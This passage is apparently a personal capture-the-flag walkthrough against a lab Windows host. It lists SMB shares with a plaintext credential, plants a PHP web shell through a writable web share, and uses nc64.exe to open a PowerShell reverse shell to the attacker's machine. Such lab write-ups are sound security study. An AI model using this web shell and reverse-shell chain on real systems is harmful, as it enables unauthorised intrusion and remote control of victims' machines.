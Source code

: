 ![[Pasted image 20250114205556.png]]

Using #crackmapexec with these creds to list smb shares again. 

`cme smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares

![[Pasted image 20250114205701.png]]
We have read,write over "Web" share.

![[Pasted image 20250114205846.png]]
Since the web server is running php, we can drop a php reverse shell on the web. 

Using #smbclient 

`smbclient -U c.bum //10.10.11.187/Web`

Create `shell.php`

and add 

```
<?php
system ($_REQUEST['cmd']) ;$
php?>
```

From smbclient: 

`put shell.php`

Navigate to `/shell.php` from web site

![[Pasted image 20250115201442.png]]

Add `/shell.php?cmd=whoami`

![[Pasted image 20250115201914.png]]
Got RCE. 

Download netcat64 for windows 

https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip

Unzip this locally. Put nc64.exe on remote host.

![[Pasted image 20250115202244.png]]
Start netcat listener on local host

`nc -lvnp 9001`

![[Pasted image 20250115202351.png]]
In the URL, we will execute 

`nc64.exe -e powershell.exe 10.10.14.10 9001`

![[Pasted image 20250115202501.png]]
![[Pasted image 20250115202621.png]]
We got a reverse shell:
